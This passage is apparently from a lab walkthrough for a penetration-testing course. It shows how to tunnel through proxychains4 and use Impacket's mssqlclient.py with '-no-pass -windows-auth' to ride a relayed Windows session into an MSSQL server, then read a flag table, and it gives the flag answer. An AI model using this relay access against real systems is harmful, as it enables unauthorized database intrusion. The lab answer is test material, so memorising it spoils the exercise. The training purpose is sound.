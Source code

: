 Students will have to start a third SSH session with the spawned target. Once they have successfully connected, they will utilize `proxychains4` and `mssqlclient.py` with the options `-no-pass` to not specify a password when authenticating, and `-windows-auth` to use Windows authentication.

Code: shell

```shell
proxychains4 mssqlclient.py INLANEFREIGHT/NPORTS@172.16.117.60 -no-pass -windows-auth
```

```shell-session
htb-student@ubuntu:~$ proxychains4 mssqlclient.py INLANEFREIGHT/NPORTS@172.16.117.60 -no-pass -windows-auth

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.11.0 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.117.60:1433  ...  OK
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (INLANEFREIGHT\nports  dbo@master)>
```

Subsequently, they will have to use a SQL query to get the flag from the `flag` table located in the `development01` database, where students will find the flag.

Code: sql

```sql
use development01;
select * from flag;
```

```shell-session
<SNIP>
SQL (INLANEFREIGHT\nports  dbo@master)> use development01;

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: development01
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'development01'.

SQL (INLANEFREIGHT\nports  dbo@development01)> select * from flag;

flagcontent                       
-------------------------------   
b'Relaying_2_D4t@Bases_1S_Cool'
```

Answer: `Relaying_2_D4t@Bases_1S_Cool`

## Farming Hashes
